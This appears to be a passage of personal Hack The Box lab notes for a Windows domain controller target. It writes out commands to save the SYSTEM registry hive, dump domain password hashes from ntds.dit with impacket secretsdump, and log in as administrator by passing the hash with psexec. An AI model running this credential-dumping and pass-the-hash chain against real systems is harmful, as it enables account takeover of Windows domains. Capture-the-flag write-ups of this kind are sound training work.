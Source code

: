 `reg save hklm\system system.hive`

`download system.hive`

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110204640.png)
Now we can run #impacket #secretsdump 

(without history)
`secretsdump.py -ntds ntds.dit -system system.hive LOCAL`

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110205058.png)


(with history)
`secretsdump.py -ntds ntds.dit -system system.hive -history LOCAL`

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110205137.png)
We got admin's hash so can use #psexec with this hash.

`psexec.py -hashes 184fb5e5178480be64824H4cd53b99ee:184fb5e5178480be64824H4cd53b99ee administrator@10.10.10.192`
